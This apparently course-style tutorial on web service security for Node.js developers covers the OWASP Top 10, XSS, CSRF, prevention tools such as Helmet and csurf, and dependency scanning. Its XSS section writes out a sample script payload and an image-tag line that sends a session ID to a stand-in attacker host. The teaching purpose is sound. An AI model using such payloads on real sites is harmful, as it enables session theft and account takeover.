 # Web Service Security

We are going to focus on security related topic in this section. The target is to get familiar with common vulnerabilities that may be exposed by web services and how to avoid them.

## OWASP Top 10 Vulnerabilities

The Open Web Application Security Project \(OWASP\) is a non-profit organization dedicated to providing unbiased, practical information about application security. The [OWASP Top 10 Web Application Security Risks](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project) was updated in 2017 to provide guidance to developers and security professionals on the most critical vulnerabilities that are commonly found in web applications, which are also easy to exploit. These 10 application risks are dangerous because they may allow attackers to plant malware, steal data, or completely take over your computers or web servers.

For those who are new to security issues, they may find it hard to interpret those issues. Luckily there is a project called [Damn Vulnerable NodeJS Application](https://appsecco.com/books/dvna-developers-security-guide/intro.html) which demonstrates some of the security issues. It actually demonstrates the top 10 issues identified in year 2013, which is a bit different from the list in 2017. Nevertheless, it's still a good tool to learn about those security issues. \(Note: to play with this node application, you need to install [docker](https://www.docker.com/) on your computer.\)

Another useful tool to demonstrate the security issues is [bWAPP, or a buggy web application](http://www.itsecgames.com/). It's written in PHP and it contains more than 100 vulnerabilities.

Out of those top 10 vulnerabilities, XSS and CSRF are very famous and worth more discussion.

### XSS \(Cross Site Scripting\)

Cross-site scripting, abbreviated to “XSS”, is a way attackers can take over webpages. The goal of an XSS attack is to gain control of JavaScript in the victim’s browser. Once a hacker has done that, there’s a lot of nasty stuff they can do: log your actions, impersonate you, steal your authentication cookies, and much more.

Here is an example of XSS Attack.

Assume you are filling in a form on some website. Let's say it's something innocuous like the quantity field on an order form or a comment on a comment form.

As a hacker, you can try to paste `<script>alert("haha")</script>` into the form in your system that will be viewable to someone else.

Now, what happens when the administrator views your latest orders? Basically, that javascript is now operating in the security context of the administrator. It could do something worse than alert\(\)... for example, it could grab his session token or a cookie's secret value \(depending on the cookie\) and send it off to `<img src=evilattacker.xyz/clear.gif?sid=xxxx>`, and \(assuming you control that `evilattacker.xyz` website\) now you can get those session cookies or tokens and you can login to the system as the administrator.

This is just one way to launch XSS attack. There are many variants. You can find more examples and details from the references:

* [XSS Tutorial](https://hackertarget.com/xss-tutorial/)
* [Veracode: XSS](https://www.veracode.com/security/xss)
* [OWASP: Cross-site Scripting](https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29)
* [Cross-site scripting for dummies](https://hackernoon.com/cross-site-scripting-for-dummies-be30f76fad09)
* [XSS Explained](https://www.securesolutions.no/xss-explained/)

How can we prevent from this kind of attack?

OWASP provided a [XSS \(Cross Site Scripting\) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet)

Here are a few quick tips for developers:

* Make sure you always validate and escape the data submitted by the user, and do some sanitization on the user input data when you need to display them \(i.e. display the user input data as pure text, instead of loading that as javascript code\). For this purpose, you can use libraries like [xss-filter](https://github.com/yahoo/xss-filters)
* Use tools like [helmet](https://helmetjs.github.io/docs/xss-filter/) to set `X-XSS-Protection` header in HTTP response, so that the browser can do some basic detection on XSS attack.
* Another trick is to use [Http-Only Cookie](https://www.owasp.org/index.php/HttpOnly) so that session cookies cannot be accessed from Javascript.
* If you need to store some information into the storage space in browser, use `session storage` instead of `local storage` if you don't need that information after the browser tab is closed.

As a user, you can protect yourself by using some browser side security features. Chrome and Safari has a built-in feature called [XSS Auditor](https://www.virtuesecurity.com/blog/understanding-xss-auditor/) that tires to mitigate XSS attacks although it can’t catch all possible XSS variants.

### CSRF \(Cross Site Request Forgery\)

Cross-site request forgery also known as single-click attack or session traversing, in which a malicious website will throw a request to a web application that the user is already authenticated against from a different website. This way an attacker can access functionality in a targeted web application via the victim’s already authenticated browser.

Imagine the following case: A User is logged into GMail and checks his mails. After she stays logged in for a while - that's a regular behavior - the user opens a new Tab and navigates to another site. This site contains code that fires a regular HTTP Request to the GMail servers - an image tag is enough to do so. Since the user is still logged in, the request is processed with her privileges - maybe changes some settings or deletes some mails, thanks to the fact that HTTP is stateless - that's it. The attack has been performed successfully and neither the user nor GMail haven't even noticed.

[Here is another example](https://youtu.be/hW2ONyxAySY), watch the first 8 minutes of this video.

How can we prevent from this kind of attack?

One of the idea is called [CSRF Token](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_%28CSRF%29_Prevention_Cheat_Sheet#Synchronizer_.28CSRF.29_Tokens), which validate user requests with a unique token that can only come from the genuine user session.

For Express.js based applications, you can generate CSRF tokens with a middleware called [csurf](https://github.com/expressjs/csurf).

As an end user, you can protect yourself against this attack using Firefox extension called [NoScript](https://noscript.net/) or Chrome plugin [uMatrix](https://github.com/gorhill/uMatrix) or [uBLock](https://github.com/gorhill/uBlock).

To get more details on CSRF attack, here are a few more articles:

* [Understanding CSRF](https://github.com/pillarjs/understanding-csrf)
* [Understanding the CSRF Vulnerability \(A Beginner Guide\)](http://www.hackingarticles.in/understanding-csrf-vulnerability-beginner-guide/)
* [CSRF DEMYSTIFIED](http://www.gnucitizen.org/blog/csrf-demystified/)
* [Wikipedia entry on CSRF](https://en.wikipedia.org/wiki/Cross-site_request_forgery)

## Follow Secure Coding Practices

As a developer, you need to be aware of the common security concerns and follow best practices when you write code.

Here are some of the guidelines:

* [Mozilla Secure Coding Guidelines](https://wiki.mozilla.org/WebAppSec/Secure_Coding_Guidelines)
* [OWASP Secure Coding Cheat Sheet](https://www.owasp.org/index.php/Secure_Coding_Cheat_Sheet)
* [JavaScript Web Application Secure Coding Practices](https://checkmarx.gitbooks.io/js-scp/)

You can also make use tools that automatically scan your code for potential security issues:

* [ESLint Plugin To Detect Possible Security Issues in Codes](https://www.npmjs.com/package/eslint-plugin-security)

## Make sure your NPM dependencies are secure

When you develop Javascript based applications, you would have a lot of dependencies on 3rd party modules. How can you be confident that those dependencies do not have known vulnerabilities? Remember, using components with known vulnerabilities" is a part of the OWASP Top 10 and insecure libraries can pose a huge risk for your web app.

What are the vulnerabilities are we talking about? You can get some examples [here](https://snyk.io/vuln?packageManager=npm)

The tools below can scan the libraries you use and detect those with vulnerabilities

* [Snyk](https://snyk.io/)
* [Node Security Platform \(a.k.a NSP\)](https://nodesecurity.io/)
* [Retire.js](https://retirejs.github.io/retire.js/)

You should regularly review your dependencies. Avoid the unnecessary ones and make the rest up-to-date. To ensure your dependencies are up-to-date, you can use tools like [greenkeeper](https://greenkeeper.io/)

Here are a few articles to give you more tips on how to manage the risks from 3rd party libraries:

* [Controlling the Node.js security risk of npm dependencies](https://blog.risingstack.com/controlling-node-js-security-risk-npm-dependencies/) is a good article talking about the process to reduce the security risks from 3rd party dependencies.
* [Quick Introduction on GreenKeeper/Snyk/NSP/Retire.js](https://developers.redhat.com/blog/2017/04/12/using-snyk-nsp-and-retire-js-to-identify-and-fix-vulnerable-dependencies-in-your-node-js-applications/)
* [Eliminating Known Vulnerabilities With Snyk](https://www.smashingmagazine.com/2016/01/eliminating-known-security-vulnerabilities-with-snyk/)

## Labs

### Learn how to use Helmet

Follow this tutorial to learn about how to use Helmet: [https://www.twilio.com/blog/2017/11/securing-your-express-app.html](https://www.twilio.com/blog/2017/11/securing-your-express-app.html)

### Learn how to use csurf to prevent CSRF attack

Follow this tutorial to learn about how to use csurf: [https://www.twilio.com/blog/2017/11/securing-your-express-app.html](https://www.twilio.com/blog/2017/11/securing-your-express-app.html)

### Try to Fix OWASP Top 10 Vulnerabilities

Follow the guide to learn the TOP10 OWASP vulnerabilities

* [https://github.com/OWASP/NodeGoat](https://github.com/OWASP/NodeGoat)
* [https://appsecco.com/books/dvna-developers-security-guide/intro.html](https://appsecco.com/books/dvna-developers-security-guide/intro.html)

## Resources

### More Labs

* [HacksExplaining](https://www.hacksplaining.com/lessons)

### Recommended Readings

* [Node JS Security Tips](https://blog.risingstack.com/node-js-security-tips/)
* [Express Security Best Practices](https://expressjs.com/en/advanced/best-practice-security.html)
* [9 Security Practice to Keep Express from Getting Pwned](https://nodesource.com/blog/nine-security-tips-to-keep-express-from-getting-pwned/)
* [Secure Express App with various HTTP headers](https://github.com/helmetjs/helmet)
* [Writing Secure Express.js Apps](https://blog.liftsecurity.io/2012/12/07/writing-secure-express-js-apps)
* [Building Secure Javascript Apps](https://nemethgergely.com/building-secure-javascript-applications/)
* [Simple Steps to Secure Your Express Node Application](http://scottksmith.com/blog/2014/09/04/simple-steps-to-secure-your-express-node-application/)

